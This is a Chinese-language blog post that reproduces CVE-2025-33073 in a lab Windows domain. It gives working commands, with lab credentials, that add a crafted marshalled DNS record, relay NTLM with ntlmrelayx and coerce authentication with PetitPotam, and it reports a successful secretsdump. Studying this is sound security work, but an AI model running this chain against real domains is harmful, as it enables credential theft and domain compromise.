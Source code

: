 ```yaml
---
title: "CVE-2025-33073"
date: 2025-10-27 09:45:23 +0800
category: 代码审计
tags: [内网,域]
excerpt: CVE-2025-33073
---
```

- 域：v.com
- 域控：10.10.10.135
- 攻击者机器：10.10.10.153(kali)
- 攻击目标： accatk.v.com (10.10.10.138)
- 普通域用户：0617

## 手工

- 创建一个特殊DNS记录，指向攻击者的机器10.10.10.153(kali)

```
dnstool.py -u 'v.com\0617' -p '111111aA!' 10.10.10.135 -a add -d 10.10.10.153 -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA'

```

![image-20250617233301057](imgs/CVE-2025-33073/image-20250617233301057.png)

- 验证dns记录

```
python3 dnstool.py -u "v.com\0617" -p "111111aA!" 10.10.10.135 -r localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA --action query -d 10.10.10.153
```

![image-20250617233852533](imgs/CVE-2025-33073/image-20250617233852533.png)

也可以dig

![image-20250617233725016](imgs/CVE-2025-33073/image-20250617233725016.png)

- 进行监听，攻击目标机器

```
ntlmrelayx.py -t "smb://accatk" -smb2support -ts
```

- 进行强制触发，让目标机器向指定DNS记录进行NTLM认证

```
PetitPotam.py -d v.com -u 0617 -p '111111aA!' localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA accatk
```

![image-20250617233424583](imgs/CVE-2025-33073/image-20250617233424583.png)

- 成功secretsdump

![image-20250617233525134](imgs/CVE-2025-33073/image-20250617233525134.png)

## 排错

`nTSecurityDescriptor`可以看到谁对这条dns记录有管理权限,有管理权限的用户可以在此直接修改记录

![image-20250619152809816](imgs/CVE-2025-33073/image-20250619152809816.png)

![image-20250619152940741](imgs/CVE-2025-33073/image-20250619152940741.png)
